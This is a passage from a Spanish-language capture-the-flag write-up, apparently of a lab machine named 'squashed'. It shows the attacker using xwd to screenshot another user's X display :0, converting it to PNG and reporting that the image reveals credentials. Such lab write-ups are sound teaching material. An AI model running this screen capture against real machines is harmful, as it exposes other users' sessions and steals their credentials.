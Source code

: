 ```shell
focus:  window 0x1e00006, revert to PointerRoot
number of extensions:    28
    BIG-REQUESTS
    Composite
.....
```

Ahora podemos hacer una captura de pantalla de la sesión `:0` que habíamos detectado antes con el comando `w`

```shell
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:/tmp$ ls
ls
screenshot.xwd
```

Ahora nos pasamos este archivo a nuestra máquina de atacante y la convertimos a PNG
```shell
$ convert screenshot.xwd screenshot.png
```

Y vaya vaya, ¡tenemos credenciales!
![Write-up Image](images/Screenshot_8.png)
